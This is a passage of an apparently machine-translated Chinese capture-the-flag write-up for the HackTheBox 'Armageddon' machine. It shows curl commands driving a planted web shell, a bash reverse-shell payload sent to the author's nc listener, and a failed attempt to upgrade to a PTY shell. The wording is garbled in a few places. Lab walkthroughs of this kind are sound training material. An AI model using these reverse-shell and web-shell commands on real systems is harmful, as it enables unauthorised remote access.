 
提示的工作方式类似于 shell：

    armageddon.htb>> id
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
    

提示符之前的最后一行表明它只是有一个正在运行的网页外壳。它的工作原理：

    oxdf@parrot$ curl 'http://10.10.10.233/shell.php' -d 'c=id'
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
    

### 壳

为了获得一个外壳，我用Bash反向外壳触发了相同的网络外壳：

    oxdf@parrot$ curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.7/443 0>&1" 'http://10.10.10.233/shell.php'
    

`curl`挂起，但在我的听力：`nc`

    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.233] 36008
    bash: no job control in this shell
    bash-4.2$ id
    id
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
    

我试图进行shell升级，但它抱怨没有PTY设备：

    bash-4.2$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    Traceback (most recent call last):
      File "<string>", line 1, in <module>
      File "/usr/lib64/python3.6/pty.py", line 154, in spawn
        pid, master_fd = fork()
      File "/usr/lib64/python3.6/pty.py", line 96, in fork
        master_fd, slave_fd = openpty()
      File "/usr/lib64/python3.6/pty.py", line 29, in openpty
        master_fd, slave_name = _open_terminal()
      File "/usr/lib64/python3.6/pty.py", line 59, in _open_terminal
        raise OSError('out of pty devices')
    OSError: out of pty devices
    

我无法找到解决这个问题的方法。我真的不需要PTY shell，但如果我这样做了，我会尝试上传下一个。`socat`

## 壳 饰 布鲁斯特阿拉德明

### 列举

#### 用户

通常，我会去看一下盒子里的其他用户是什么，以及我下一步可能想要转向的地方。有趣的是，我在以下位置看不到任何内容：`/home``/home`
